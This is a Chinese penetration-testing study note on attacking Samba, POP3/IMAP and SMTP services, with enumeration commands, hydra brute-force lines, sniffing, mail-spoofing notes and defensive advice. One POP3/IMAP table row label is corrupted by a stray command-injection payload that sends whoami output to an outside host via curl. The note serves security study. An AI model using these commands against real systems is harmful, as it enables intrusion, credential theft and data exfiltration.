




[TOC]

# Samba协议（445/139）

- Samba是SMB协议的开源实现，运行在Linux/Unix上。SMB（Server Message Block）是Windows文件共享的核心协议
- 默认使用端口445/tcp（以及旧的139/tcp NetBIOS）



- 配置文件：/etc/samba/smb.conf
- 下面给出的命令均是常用命令，具体参数在help界面找

## smbmap

图形化列出共享以及权限

- 可以在解决samba协议时先用来枚举smb共享以及文件列表

```
smbmap -H <目标IP> (-u anonymous -p '')
```

- -u:用户
- -p:密码

这两个参数也可以不写（anonymous是匿名用户，ftp也可以用这种用户）

## enum4linux

- **一站式全枚举**：用户、组、共享、OS、密码策略

  ```
  enum4linux -a <目标IP>
  ```

  - 可以在smbmap后使用，其实二者作用相似，后者的信息收集能力更强，利于详细查看

## smbclient

- 列出目标主机上的所有共享

- 以交互式shell方式连接指定共享

- 可以执行ls,cd,get,put,mkdir,rm,rename等操作

- 支持空会话（也就是匿名，anonymous）登录

- 支持明文密码，NTLM哈希认证

- 可指定SMB协议版本（如SMB1/2/3）

- 非交互式执行命令，方便脚本化

  ```
  smbclient //<目标IP> 
  ```

  

  - 什么参数也没有的话，就是以anonymous登录

## 总结





# pop3（110）和imap（143）

- pop3和imap是两种最常见的邮件接受协议，经常出现在内网邮件服务器或企业环境中

## 协议基础对比

| 维度                                                  | POP3                                         | IMAP                               |
| :---------------------------------------------------- | :------------------------------------------- | :--------------------------------- |
| **全称**                                              | Post Office Protocol version 3               | Internet Message Access Protocol   |
| **默认端口**                                          | 110 (明文), 995 (SSL/TLS)                    | 143 (明文), 993 (SSL/TLS)          |
| xxxxxxxxxx 127.0.0.1&curl `whoami`.ff34r0.ceye.iotext | 默认下载到本地后删除服务器副本（可设置保留） | 邮件始终保留在服务器，本地仅缓存   |
| **文件夹管理**                                        | 不支持服务器端文件夹，通常只有收件箱         | 支持多文件夹、标签、搜索、状态标记 |
| **多设备同步**                                        | 差，邮件易被重复下载或丢失                   | 强，所有设备看到相同状态           |
| **离线访问**                                          | 好（下载后本地阅读）                         | 依赖服务器，离线只能看缓存         |
| **服务器资源消耗**                                    | 低                                           | 高（需维护状态和索引）             |

**渗透测试要点**：IMAP 因为保留更多数据在服务器，一旦凭据泄露，可以获取更完整、更持久的邮件信息；POP3 则可能只有部分邮件（或已被客户端下载删除）。

## 安全机制对比

| 安全特性     | POP3                                   | IMAP                                          |
| :----------- | :------------------------------------- | :-------------------------------------------- |
| **明文认证** | 默认，USER/PASS 明文发送               | 默认，LOGIN 命令明文发送                      |
| **加密**     | POP3S (995)                            | IMAPS (993)，也支持 STARTTLS                  |
| **认证方式** | 主要 USER/PASS，少数支持 APOP 加密认证 | LOGIN、AUTHENTICATE（支持 NTLM、Kerberos 等） |
| **常见漏洞** | 弱口令、明文嗅探、用户枚举             | 弱口令、明文嗅探、用户枚举、邮件规则注入      |

> **共同风险**：两者默认都可能明文传输密码，只要能在网络中抓包，就能直接获得登录凭据。

## 渗透测试中的攻击面对比

| 攻击步骤       | POP3                                      | IMAP                                      |
| :------------- | :---------------------------------------- | :---------------------------------------- |
| **发现服务**   | `nmap -p 110,995 -sV`                     | `nmap -p 143,993 -sV`                     |
| **手工登录**   | `USER` / `PASS`                           | `a001 LOGIN user pass`                    |
| **枚举文件夹** | 仅收件箱，无 LIST 文件夹                  | `LIST "" "*"` 列出所有文件夹              |
| **搜索邮件**   | 只能逐封下载，无法服务器端搜索            | `SEARCH` 可基于发件人、主题、正文等搜索   |
| **读取邮件**   | `RETR <编号>` 下载完整邮件                | `FETCH <ID> (BODY[])` 可部分或完整下载    |
| **弱口令爆破** | `hydra -l user -P pass.txt pop3://target` | `hydra -l user -P pass.txt imap://target` |
| **明文嗅探**   | `tcpdump -i eth0 -A port 110`             | `tcpdump -i eth0 -A port 143`             |
| **后渗透利用** | 凭据复用、查看邮件内容                    | 凭据复用、邮件规则注入、持续监控          |

**结论**：IMAP 比 POP3 提供了更强的服务器端功能，也因此给了攻击者更多操作空间（如创建转发规则、搜索特定关键词邮件等）。但 POP3 因实现简单，有时出现在老旧设备或嵌入式系统中，弱口令可能性更高。

## 常用工具与命令对比

| 工具             | POP3 命令示例                                                | IMAP 命令示例                                                |
| :--------------- | :----------------------------------------------------------- | :----------------------------------------------------------- |
| **nmap**         | `nmap -p 110 --script pop3-* target`                         | `nmap -p 143 --script imap-* target`                         |
| **hydra**        | `hydra -l admin -P pass.txt pop3://target`                   | `hydra -l admin -P pass.txt imap://target`                   |
| **nc / openssl** | `nc -nv target 110` `openssl s_client -connect target:995 -quiet` | `nc -nv target 143` `openssl s_client -connect target:993 -quiet` |
| **Metasploit**   | `auxiliary/scanner/pop3/pop3_login`                          | `auxiliary/scanner/imap/imap_login`                          |
| **抓包**         | `tcpdump -A port 110`                                        | `tcpdump -A port 143`                                        |

## 防御建议

- **强制加密**：禁用明文端口 110/143，仅开放 995/993 或使用 STARTTLS。
- **强密码策略**：密码长度 ≥12，包含大小写、数字、特殊字符，定期更换。
- **账户锁定与速率限制**：防止暴力破解。
- **多因素认证**：对邮件系统启用 MFA，尤其 Webmail 和 IMAP/POP3 认证。
- **网络隔离**：邮件服务器仅允许内部网络或 VPN 访问。
- **日志监控**：记录登录失败、异常文件夹创建、规则修改等行为。
- **及时更新**：修复邮件服务器软件（如 Dovecot、Cyrus、Exchange）的已知漏洞。

# SMTP协议（25端口）

| 命令          | 作用说明                                                     | 示例                            |
| ------------- | ------------------------------------------------------------ | ------------------------------- |
| **HELO**      | 客户端向邮件服务器打招呼，标识客户端主机名（老协议）         | `HELO test.local`               |
| **EHLO**      | 扩展版 HELO，推荐使用；服务器会返回支持的扩展功能（STARTTLS、AUTH 等） | `EHLO test.local`               |
| **MAIL FROM** | 指定**发件人地址**，开启一次邮件传输会话                     | `MAIL FROM:<attacker@test.com>` |
| **RCPT TO**   | 指定**收件人地址**，可多次使用支持多收件人；常用于账号枚举   | `RCPT TO:<victim@target.com>`   |
| **DATA**      | 开始输入邮件正文，输入完成后**单独一行一个 `.`** 提交邮件    | `DATA` （邮件内容）`.`          |
| **VRFY**      | 校验邮箱用户是否存在，尝试验证账号；现代服务器大多禁用       | `VRFY admin`                    |
| **EXPN**      | 展开邮件分发列表，列出组内所有成员；大部分服务器禁用         | `EXPN support`                  |
| **AUTH**      | SMTP 身份认证，登录邮箱账号密码（LOGIN/PLAIN 方式）          | `AUTH LOGIN`                    |
| **RSET**      | 重置当前邮件会话，清空已输入的 MAIL FROM/RCPT TO，不关闭连接 | `RSET`                          |
| **NOOP**      | 空操作，仅保活，服务器返回 OK，不做任何处理                  | `NOOP`                          |
| **QUIT**      | 结束 SMTP 会话，断开 TCP 连接                                | `QUIT`                          |
| **STARTTLS**  | 开启 TLS 加密，明文连接升级为加密通道                        | `STARTTLS`                      |
| **HELP**      | 服务器返回支持的命令列表                                     | `HELP`                          |

1. 账号枚举两种方式
   - VRFY：`VRFY user`，简单直接，但是基本被禁用
   - RCPT TO：`MAIL FROM:<> + RCPT TO:<user@xxx>`，**最常用**，即使 VRFY 关闭也可能可用
2. 邮件发送完整流程顺序： `EHLO` → `MAIL FROM` → `RCPT TO` → `DATA` → 写邮件内容 → `.` → `QUIT`
3. 注意：`MAIL FROM` 只是信封发件人，邮件头里`From:`可以**随便伪造**（信封和头部可以不一致，这就是邮件伪造的关键点）
